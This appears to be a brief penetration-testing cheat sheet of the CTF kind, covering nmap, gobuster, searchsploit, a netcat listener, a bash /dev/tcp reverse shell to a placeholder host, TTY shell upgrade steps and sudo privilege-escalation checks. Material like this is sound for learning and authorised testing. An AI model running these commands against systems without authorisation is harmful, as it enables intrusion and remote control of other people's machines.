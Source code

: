 ## Port scanning
### Nmap
* `nmap -sC -sV -oA <FILENAME> <IP>`
  * Default script, version detection, output to file 
  * [Explanation](https://www.cleancss.com/explain-command/nmap/4068984)


## Enumeration
### Directories
* `gobuster dir -u http://<SERVER> -o dirs.txt -w ~/links/dirlist.txt`
  * [Documentation](https://github.com/OJ/gobuster)
* [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

  
## Exploits
### Searchsploit
* Simple search - `searchsploit <KEYWORD>`
* Exploit details - `searchsploit -x <PATH>`
* Copy exploit - `searchsploit -m <PATH>`

### Websites
* [exploit-db.com](https://www.exploit-db.com/)

## Reverse shells
### Listen for connections
* `nc –nlvp <PORT>`
    * [Explanation](https://www.cleancss.com/explain-command/index.php?string=nc+-l+-v+-p)
### Bash
* `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`

### TTY shell
1. Open netcat session
1. `python -c 'import pty; pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. `CTRL+Z`
4. `stty raw -echo`
5. `fg`

[Other methods of spawning a TTY Shell](https://netsec.ws/?p=337)

## Privilege escalation
### Sudo pwnage
* Commands executable as root - `sudo -l`
  * `(root) NOPASSWD: /usr/bin/vi /var/www/html/*`
  
[Basic cheat sheet](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

## Useful websites
* Explain linux commands - [cleancss.com/explain-command/](https://www.cleancss.com/explain-command/)
* Default router settings - [cleancss.com/router-default/](https://www.cleancss.com/router-default/)
